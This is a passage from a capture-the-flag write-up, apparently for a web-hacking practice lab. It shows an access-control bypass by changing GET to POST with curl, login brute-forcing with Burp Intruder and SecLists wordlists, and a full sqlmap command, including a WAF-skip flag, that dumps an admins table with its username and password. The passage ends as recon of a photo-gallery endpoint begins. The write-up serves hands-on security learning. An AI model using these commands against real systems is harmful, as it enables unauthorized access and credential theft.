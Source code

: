 It will change GET to POST and you'll be happy with the result.

You can make your life easier and just use curl:

```
$ curl -X POST http://xx.xx.x.xx/xxxxxxxxx/page/edit/1
```

### Flag 2

For the next flag there's no way around it, we have to login with valid credentials. 

I did it using two different methods:

* Using Burp Intruder

You can launch a *Cluster bomb* attack, but it could take ages to run... so I used *Sniper* instead, to find out a valid *user*, then another run to find the *password* for that user. Of course this approach depends heavily on the wordlist you use... I used wordlists for common usernames and passwords from [SecLists](https://github.com/danielmiessler/SecLists) and got the credentials.

* Using sqlmap

Combining the information from the SQL error that we had previously, I executed this *sqlmap* command:
```
$ sqlmap -u http://xx.xx.x.xx/xxxxxxxx/login --method POST -T admins --data="username=&password=" --dump --dbms=mysql --skip-waf --threads 10 -o

[...]
Database: level2
Table: admins
[1 entry]
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
| 1    | grace    | maureen    |
+------+----------+------------+
```

I used these credentials and was rewarded with the last flag.

Once again, your valid credentials could be different.

Using sqlmap you can find the tables of the database and see the flag 1 in the *pages* table, but there's no need for that, unless you want to practice.

**Conclusions:** recon takes a crucial part in our success, and you should always check how the application behaves with authenticated and unauthenticated users, look for ways to access privileged resources that you shouldn't have access to. Changing request methods can lead to unexpected outcomes.

## Photo Gallery

I started with the recon, but it appears to be no functionality on this site... the page source code revealed an endpoint:

* /fetch?id=*\<photo id\>*
